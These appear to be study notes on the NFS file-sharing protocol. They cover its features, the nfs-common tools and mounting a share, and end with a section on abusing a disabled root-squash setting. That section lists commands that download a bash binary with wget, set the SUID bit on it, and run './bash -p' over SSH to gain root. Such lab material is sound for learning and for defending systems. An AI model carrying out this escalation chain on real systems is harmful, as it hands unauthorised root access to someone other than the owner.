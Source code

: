 Default port 2049 (UDP)

- **NFS (Network File System):**
  1. **Distributed File System:** NFS is a distributed file system protocol that allows a user on a client computer to access files over a network as if they were on its local disks.
  2. **Unix and Linux Compatibility:** Originally developed by Sun Microsystems, NFS is commonly used in Unix and Linux environments, providing a standardized way to share files across these systems.
  3. **Versions:** NFS has gone through several versions, with NFSv3 and NFSv4 being widely used. Each version introduces enhancements in performance, security, and features.
  4. **Mounting and Sharing:** NFS enables the mounting of remote directories, allowing them to be accessed as if they were local, promoting collaboration and resource sharing among networked computers.

If Someone wants to access a file with NFS an RPC (Remote Procedure Call)
Parameter for RPC :
-  The file handle
-  The name of the file to be accessed
-  The user's, user ID
-  The user's group ID

Compatible with MacOs -> Unix -> Windows


---
### nfs-common (tool)

Common nfs tools:
- lockd, statd
- showmount
- nfsstat
- gssd
- idmapd
- mount.nfs

**Mounting NFS shares**
```sudo mount -t nfs 10.10.115.32:/home /tmp/mnt -nolock```


| Tag       | Function                                      |
|-----------|-----------------------------------------------|
| sudo      | Run as root                                    |
| mount     | Execute the mount command                      |
| -t nfs    | Type of device to mount, specifying that it's NFS  |
| IP:share  | The IP Address of the NFS server, and the name of the share to mount  |
| -nolock   | Specifies not to use NLM locking               |

---
NFS Exploit


#### Roots-squash (Activated by default so **SECURE ?**):
  - *Default Setting:* Enabled by default on NFS shares.
  - *Prevents Root Access:* Blocks root access to the NFS volume for connecting users.
  - *Assigned User:* Remote root users get assigned the user "nfsnobody."
  - *Least Privileges:* "nfsnobody" has minimal local privileges.
  - *Security Measure:* Intended to enhance security on NFS shares.
  - *Risk of Disabling:* Disabling may allow the creation of SUID bit files.
  - *Security Concern:* This can potentially grant remote users root access.
  - *Caution Needed:* Disabling should be done cautiously due to security implications.


Can permit :

    NFS Access ->
        Gain Low Privilege Shell ->
            Upload Bash Executable to the NFS share ->
                Set SUID Permissions Through NFS Due To Misconfigured Root Squash ->
                    Login through SSH ->
                        Execute SUID Bit Bash Executable ->
                            ROOT ACCESS

Example: 
```wget https://github.com/polo-sec/writing/raw/master/Security%20Challenge%20Walkthroughs/Networks%202/bash```

Into the mounted files from the client computer
Set permission with SUID for the file (as root owner)
``` -rwsr-sr-x 1 root root 1113504 Nov 13 05:12 bash```
With: ```sudo chmod +sx bash```
Log in with SSH into the target
& Run the bash with this argument : ```./bash -p```



